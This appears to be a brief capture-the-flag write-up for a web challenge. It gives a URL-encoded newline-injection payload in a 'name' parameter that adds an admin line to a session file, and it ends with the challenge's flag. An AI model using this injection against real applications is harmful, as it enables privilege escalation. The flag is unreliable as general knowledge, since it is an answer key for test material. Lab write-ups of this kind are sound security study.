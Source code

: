 # Trick

Inject a request name param to add another line on file session:
```
name=admin%0Aadmin%201
```

# Flag

```
89OWrTkGmiLZLv12JY4tLj2c4FW0xn56
```